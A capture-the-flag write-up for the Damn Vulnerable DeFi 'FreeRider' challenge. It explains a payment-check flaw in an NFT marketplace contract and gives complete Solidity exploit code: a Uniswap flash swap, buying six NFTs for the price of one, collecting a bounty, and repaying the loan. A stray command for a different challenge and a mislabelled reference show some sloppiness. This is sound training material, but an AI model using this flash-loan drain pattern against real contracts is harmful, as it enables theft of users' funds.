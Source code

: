 # FreeRider CTF Writeup

## Challenge Description
A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A critical vulnerability has been reported, claiming that all tokens can be taken. Yet the developers don’t know how to save them!

They’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way. The recovery process is managed by a dedicated smart contract.

You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

If only you could get free ETH, at least for an instant.

## The Exploit Strategy
In FreeRiderNFTMarketPlace contract there are two vulns. in buyMany function there is no check for msg.value with price and in buyOne function contract returning whole amount rather than remaining of msg.value from price to msg.sender 

Here’s how the exploit unfolds step by step:

1. take the flashloan from uniswap with 15 weth as price of nFT is 15 eth 
2. in unswapV2Call(hook call) get eth from weth using weth tokens and initiate call for buyManyFunction with 6 NFT id array with 15 eth(1 NFT value is 15 ether)
3. get biunty by trnasfering all NFTs to recoveryManager and repay the flashloan
4. after all this stuff transfer all eth to player 
## Solution

```solidity
    function test_freeRider() public checkSolvedByPlayer {
        // Deploy the attack contract
        Attack attack = new Attack(recoveryManager, nft, marketplace, uniswapPair, weth);

        // Execute the attack
        attack.attack();
    }
```
```solidity
contract Attack {
    FreeRiderRecoveryManager public recoveryManager;
    DamnValuableNFT public nft;
    // The NFT marketplace has 6 tokens, at 15 ETH each
    uint256 constant NFT_PRICE = 15 ether;
    uint256 constant AMOUNT_OF_NFTS = 6;

    // Initial reserves for the Uniswap V2 pool
    IUniswapV2Pair uniswapPair;
    FreeRiderNFTMarketplace marketplace;
    WETH weth;
    address public owner;

    constructor(
        FreeRiderRecoveryManager _recoveryManager,
        DamnValuableNFT _nft,
        FreeRiderNFTMarketplace _marketplace,
        IUniswapV2Pair _uniswapPair,
        WETH _weth
    ) {
        recoveryManager = _recoveryManager;
        nft = _nft;
        marketplace = _marketplace;
        uniswapPair = _uniswapPair;
        weth = _weth;
        owner = msg.sender;
    }

    function attack() public {
        // uniswapV2
        // uniswapPair = IUniswapV2Pair(uniswapV2Factory.getPair(address(token), address(weth)));

        uniswapPair.swap(NFT_PRICE, 0, address(this), new bytes(1));
        (bool res,) = owner.call{value: address(this).balance}("");
        require(res, "Transfer failed.");
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
        // Extract all ETH from the marketplace
        // marketplace.buyMany{value: 15 ether}([0,1,2,3,4,5]);
        weth.withdraw(weth.balanceOf(address(this)));
        uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
        for (uint256 i = 0; i < ids.length; ++i) {
            ids[i] = i;
        }
        console.log("balance of attack before :", address(this).balance);
        marketplace.buyMany{value: NFT_PRICE}(ids);
        console.log("balance of attack after buy many :", address(this).balance);

        for (uint256 i = 0; i < ids.length; ++i) {
            nft.safeTransferFrom(address(this),address(recoveryManager), i, abi.encodePacked(bytes32(uint256(uint160(address(this))))));
            
        }

        console.log("balance of attack after transfer :", address(this).balance);

        console.log("owner of 0: %s", nft.ownerOf(0));
        console.log("owner of q: %s", nft.ownerOf(1));

        console.log("owner of 2: %s", nft.ownerOf(2));

        weth.deposit{value: NFT_PRICE + 1 ether}();
        weth.transfer(address(uniswapPair), NFT_PRICE + 1 ether);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory _data) external returns (bytes4) {
        return this.onERC721Received.selector;
    }

    receive() external payable {}
}
//90_000_000_000_000_000_000
```




## References
- [Solution Link](https://docs.soliditylang.org/)
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)

 forge test --mp test/selfie/Selfie.t.sol -vvvv




